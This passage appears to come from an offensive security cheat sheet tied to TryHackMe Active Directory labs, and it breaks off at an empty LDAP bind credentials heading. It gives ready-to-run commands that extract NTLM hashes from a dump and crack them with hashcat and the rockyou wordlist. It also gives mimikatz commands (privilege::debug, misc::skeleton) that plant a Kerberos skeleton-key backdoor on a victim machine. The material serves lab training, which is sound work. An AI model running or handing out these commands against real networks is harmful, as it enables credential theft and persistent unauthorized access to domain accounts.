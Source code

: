 Copy to Kali output back to Kali

Output only the hashes and remove all duplicates into a new file.

**Kali**

```
cat hashes.txt | grep NTLM | awk -F ":" '{print $2}' | grep "\S" | sed 's/^[ \t]*//'  | sort | uniq > hash.txt
```

<figure><img src="../../.gitbook/assets/image (1) (2) (5) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt --show
```

## Kerberos Backdoors w/ mimikatz

**Example**

[#kerberos-backdoors-w-mimikatz](../../walkthroughs/tryhackme/attacking-kerberos.md#kerberos-backdoors-w-mimikatz "mention")

**Victim**&#x20;

```
mimikatz.exe
```

**Victim (Mimikatz)**

```
privilege::debug
misc::skeleton
```





## LDAP Bind Credentials

**Examples**&#x20;

[#ldap-bind-credentials](../../walkthroughs/tryhackme/breaching-active-directory.md#ldap-bind-credentials "mention")

**Kali**
